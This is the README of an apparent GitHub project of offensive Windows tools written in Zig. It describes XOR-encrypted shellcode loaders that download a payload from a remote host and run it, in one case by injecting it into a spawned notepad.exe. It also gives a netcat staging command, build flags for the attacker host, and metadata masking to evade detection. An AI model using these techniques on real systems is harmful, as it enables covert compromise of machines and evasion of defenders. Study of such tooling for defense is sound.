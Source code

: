# offensive zig
> offensive security tools written in zig 

**NOTE**: built w/ zig 0.14.0-dev.138+02b3d5b58

# contents
**utilities**:
- xor.py
	script to xor encrypt shellcode

**tools**
- rwxhunter
	identifies RWX memory regions for all processes

**shellcode loaders**:
- local
	injects shellcode downloaded from a remote socket in the local process and executes via a function pointer
- remote
	creates a sacrificial *notepad.exe* process, allocates RWX memory, then executes via remote thread

## opsec
> generally this is just a learning tool for me, but i am also trying to implement opsec-aware techniques which reduce detections for payloads

### masking executable metadata
executable metadata is masked to appear as `psping.exe` from Sysinternals, but this can be customized in `metadata.rc` 

## shellcode loaders
#### building
> this will build all payloads as individual `.exe` files

`zig build -Dtarget=x86_64-windows -Dhost="<ip>" -Dport=<port> -Dsize=<payload_size>`

#### running 
1. stage shellcode w netcat
	`sudo nc -vv -l -k -p 80 < payload.bin`
2. download & execute the `.exe` on target
3. profit

### local
#### overview
1. creates a socket using `std.os.windows.ws2_32` and downloads from a remote host & port specified at compile time with the flags shown below
   
2. xor decrypts downloaded shellcode using hardcoded key

3. allocates RWX memory within the current process using `std.os.windows.VirtualAlloc` and copies the shellcode into the region

4. executes the memory by creating a function which points to the base address of the region: `const func: *const fn () callconv(.C) i32 = @ptrCast(memory);`

### remote
#### overview
1. spawns a new *notepad.exe* process in a suspended state and opens a handle to it
   
2. creates a socket using `std.os.windows.ws2_32` and downloads from a remote host & port specified at compile time with the flags shown below
   
3. xor decrypts downloaded shellcode using hardcoded key
   
4. allocates RWX memory in the remote process using `VirtualAllocEx` and write shellcode to the region using `WriteProcessMemory`

5. finally, spawns a remote thread pointed at the memory region of the *notepad.exe* process which contains our shellcode using `NtCreateThreadEx`, then resumes the thread to execute

